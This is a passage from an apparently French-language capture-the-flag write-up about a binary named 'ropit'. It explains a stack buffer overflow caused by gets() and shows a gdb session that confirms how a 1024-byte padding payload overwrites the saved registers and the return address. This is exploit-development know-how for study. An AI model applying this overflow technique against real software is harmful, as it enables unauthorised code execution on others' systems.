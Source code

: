 ```asm
   0x0000000000400574 <+61>:    ret    
End of assembler dump.
```

La vulnérabilité tient du fait que la fonction *gets()* est utilisée et qu'elle ne fait pas attention à la quantité d'octets lus. La pile alloue justement 1024 (0x400) octets pour la variable locale qui est ici la destination de la recopie.  

L'écrasement du registre RIP se fera sur la dernière instruction *ret*. On peut donc placer un breakpoint, saisir l'équivalent de l'expression python *"A" \* 1024 + "B" \* 4 + "C" \* 4 + "D" \* 4 + "E" \* 4* et regarder sur la pile à quoi correspondra la future valeur de ce registre :  

```plain
(gdb) b * 0x0000000000400574
Breakpoint 1 at 0x400574
(gdb) r 
Starting program: /tmp/ropit 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib64/libthread_db.so.1".
Welcome to Exploitation&Pwning world back day's from Moomin's time .

Let's see what you can use to get the root of this box.

AAAA--- snip ---AAAAAABBBBCCCCDDDDEEEE

Breakpoint 1, 0x0000000000400574 in main ()
(gdb) x/s $rsp
0x7fff84282758: "DDDDEEEE"
(gdb) info reg
rax            0x0                 0
rbx            0x0                 0
rcx            0x7f73f7cd88c0      140136055408832
rdx            0x1                 1
rsi            0x1                 1
rdi            0x7f73f7ce1880      140136055445632
rbp            0x4343434342424242  0x4343434342424242
rsp            0x7fff84282758      0x7fff84282758
r8             0x0                 0
r9             0x7fff84282380      140735410611072
r10            0x5d                93
r11            0x246               582
r12            0x7fff84282888      140735410612360
r13            0x400537            4195639
r14            0x7f73f7d3ec00      140136055827456
r15            0x400580            4195712
rip            0x400574            0x400574 <main+61>
eflags         0x206               [ PF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) x/s $r9
0x7fff84282380: 'A' <repeats 200 times>...
```
